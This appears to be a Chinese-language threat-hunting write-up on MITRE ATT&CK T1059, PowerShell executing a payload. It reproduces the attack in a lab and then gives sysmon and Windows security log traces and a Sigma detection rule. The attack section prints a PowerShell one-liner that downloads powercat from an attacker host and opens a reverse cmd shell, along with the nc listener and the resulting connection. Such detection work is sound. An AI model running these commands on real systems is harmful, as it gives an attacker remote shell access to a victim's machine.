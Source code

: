 # T1059-win-基于白名单Powershell.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

您可以使用PowerShell.exe从另一个工具（例如Cmd.exe）的命令行启动PowerShell会话，也可以在PowerShell命令行启动新会话。从此处阅读Microsoft Windows官方网站上的更多信息。

补充说明：在高版本powershell（V5以上含V5）中，可以通过配置策略，对进程命令行参数进行记录，具体策略可参考[powershell事件](https://github.com/12306Bro/Hunting-guide/blob/master/Powershell-id.md)。同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload

下载我们本次测试中要用到的powercat，下载地址：<https://github.com/besimorhino/powercat>

#### 开启小型http服务

powercat目录下执行以下命令：

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

#### 执行监听

```bash
nc -lvp 1234
```

#### 靶机执行payload

```cmd
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"
```

#### 反弹shell

```bash
root@12306Br0:/# nc -lvp 1234
listening on [any] 1234 ...
192.168.126.149: inverse host lookup failed: Unknown host
connect to [192.168.126.146] from (UNKNOWN) [192.168.126.149] 49339
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell  -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"

#win7安全日志
EventID: 4688
进程信息:
新进程 ID: 0x330
新进程名: C:\Windows\System32\cmd.exe
令牌提升类型: TokenElevationTypeLimited (3)

EventID: 4688
进程信息:
新进程 ID: 0xa44
新进程名: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

#Powershell V5(含V5以上)配置审核策略，可以达到记录命令行参数的效果。通过命令行参数进行监控分析。当然也可以采用配置windows server 2008(不含2008)以上审核进程创建策略，同样也可以对命令行参数进行记录，最后达到监控效果。
```

## 检测规则/思路

### sigma规则

```yml
title: PowerShell通过url进行下载
status: experimental
description: 检测在命令行字符串中包含下载命令的Powershell进程
tags:
    - attack.t1086
    - attack.execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image: '*\powershell.exe'
        CommandLine:
            - '*new-object system.net.webclient).downloadstring(*'
            - '*new-object system.net.webclient).downloadfile(*'
            - '*new-object net.webclient).downloadstring(*'
            - '*new-object net.webclient).downloadfile(*'
    condition: selection
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - unknown
level: medium

```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059-001

<https://attack.mitre.org/techniques/T1059/001/>
